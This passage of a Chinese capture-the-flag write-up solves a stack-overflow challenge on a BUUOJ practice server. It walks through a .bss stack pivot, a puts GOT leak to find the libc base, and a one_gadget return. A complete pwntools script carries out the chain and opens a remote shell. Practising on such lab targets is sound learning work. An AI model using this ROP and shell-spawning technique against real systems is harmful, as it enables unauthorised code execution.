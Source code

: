 <img src="/upload/img/image-20220411123649497.png" alt="image-20220411123649497" style="zoom:33%;" />

这个constraints下面的就是这个execve执行的条件(至于哪个地址能满足这个条件，一个一个试试就行），然后上面就是对应的地址，最后我们要用这个地址去加上libc_base，得到真正的one_gadget地址。接着返回到main函数再来一遍，这回第一次输入的时候，我们直接把这个one_gadget给放入返回地址即可。最后要注意的就是因为返回到main函数之后，是有两个read的，尽管我们在第一个read就覆盖了返回地址，但是还是要把第二个read给发送一个内容，才可以结束main函数，因此我在最后一个read发送了一个'1'。

这个思路其实还有一种变形，就是在第一次read的时候，把rbp直接填充成我们要迁移之后的地址（这个地址是要保证执行puts函数也不会干扰到程序的正常数据），然后第二次输入只需要把迁移后的地址之前全部填充成垃圾数据，然后构造payload，等到迁移之后，直接迁移到了构造的payload的这里，效果和变形之前的思路是一样的）

```python
from pwn import *
p=remote('node4.buuoj.cn',25199)
context(arch='amd64',os='linux',log_level='debug')
libc=ELF('libc-2.23.so')
e=ELF('./a')
puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
pop_rdi_addr=0x400703
level_ret_addr=0x400699
bss_addr=0x601080
ret_addr=0x4004c9
main_addr=0x400626
payload1=0x60*'a'+p64(bss_addr)+p64(level_ret_addr)
p.send(payload1)
payload2=p64(ret_addr)*20 #这里ret最少是20个，也可以多一点
payload2+=p64(pop_rdi_addr)+p64(puts_got_addr)+p64(puts_plt_addr)
payload2+=p64(main_addr)
p.sendafter('Done!You can check and use your borrow stack now!\n',payload2)
puts_addr=u64(p.recv(6).ljust(8,'\x00'))
libc_base=puts_addr-libc.symbols['puts']
shell=libc_base+0x4526a
print(hex(shell))
payload3=0x60*'a'+p64(0xdeadbeef)+p64(shell)
p.recvuntil('u want\n')
p.send(payload3)
p.recvuntil('Done!You can check and use your borrow stack now!\n')
p.send('1')
p.interactive()
```
###打本地的wp
